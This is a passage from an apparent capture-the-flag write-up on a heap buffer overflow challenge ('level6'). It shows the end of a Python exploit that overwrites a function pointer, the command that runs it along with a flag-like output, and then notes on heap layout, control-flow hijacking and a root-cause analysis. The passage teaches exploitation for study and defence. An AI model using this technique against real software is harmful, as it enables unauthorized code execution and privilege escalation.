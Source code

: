 ```python
target_address = struct.pack("<L", n_function)   # Address of n() in little-endian

payload = padding + target_address

print payload
```

### Execution and Results
```bash
$ ./level6 $(python exploit.py)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

**Success indicators**:
- No "Nope" output (m() function bypassed)
- Flag displayed (n() function executed)
- system() call successfully executed with level7 privileges

## Advanced Technical Concepts

### Heap Memory Management
- **malloc() implementation**: Understanding glibc heap chunk structure
- **Heap metadata**: Chunk headers containing size and status information
- **Adjacent allocation**: Predictable layout for consecutive malloc() calls
- **Memory alignment**: 32-bit system alignment affecting chunk placement

### Function Pointer Exploitation
- **Indirect calls**: `call *%eax` instruction allows runtime target specification
- **Control flow hijacking**: Redirecting execution without code injection
- **Code reuse**: Leveraging existing functions (n) instead of shellcode injection
- **Precision targeting**: Exact offset calculation for reliable exploitation

### Heap vs Stack Exploitation
**Differences from stack-based attacks**:
- **Memory location**: Heap (dynamic) vs Stack (automatic) storage
- **Allocation timing**: Runtime malloc() vs compile-time stack frame
- **Metadata presence**: Heap chunks have management headers
- **Predictability**: Generally more predictable layout than stack

## Security Analysis

### Vulnerability Classification
- **CWE-122**: Heap-based Buffer Overflow
- **CVSS Impact**: High (arbitrary code execution via function pointer hijacking)
- **Attack Vector**: Local (command line argument processing)
- **Complexity**: Medium (requires heap layout understanding)

### Root Cause Analysis
1. **Missing input validation**: No length checking on strcpy() source
2. **Unsafe function usage**: strcpy() inherently dangerous without bounds
3. **Poor memory management**: Adjacent sensitive data (function pointer)
4. **Lack of modern protections**: No heap cookies, ASLR, or control flow integrity
